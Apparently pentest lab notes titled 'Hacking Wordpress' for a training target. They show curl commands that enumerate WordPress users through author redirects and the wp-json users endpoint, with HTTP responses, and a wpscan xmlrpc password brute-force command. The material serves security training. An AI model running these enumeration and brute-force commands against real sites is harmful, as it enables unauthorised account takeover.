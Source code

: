 # Hacking Wordpress

- **User Enumeration**
    - Existing User:
    ```bash
    curl -s -I http://blog.inlanefreight.com/?author=1

    HTTP/1.1 301 Moved Permanently
    Date: Wed, 13 May 2020 20:47:08 GMT
    Server: Apache/2.4.29 (Ubuntu)
    X-Redirect-By: WordPress
    Location: http://blog.inlanefreight.com/index.php/author/admin/
    Content-Length: 0
    Content-Type: text/html; charset=UTF-8
    ```
    - Non-Existing User:
    ```bash
    curl -s -I http://blog.inlanefreight.com/?author=100

    HTTP/1.1 404 Not Found
    Date: Wed, 13 May 2020 20:47:14 GMT
    Server: Apache/2.4.29 (Ubuntu)
    Expires: Wed, 11 Jan 1984 05:00:00 GMT
    Cache-Control: no-cache, must-revalidate, max-age=0
    Link: <http://blog.inlanefreight.com/index.php/wp-json/>; rel="https://api.w.org/"
    Transfer-Encoding: chunked
    Content-Type: text/html; charset=UTF-8
    ```

    - JSON Endpoint
    ```bash
    curl http://blog.inlanefreight.com/wp-json/wp/v2/users | jq
    ```


    - Wordpress User bruteforce
    ```bash
    wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com
    ```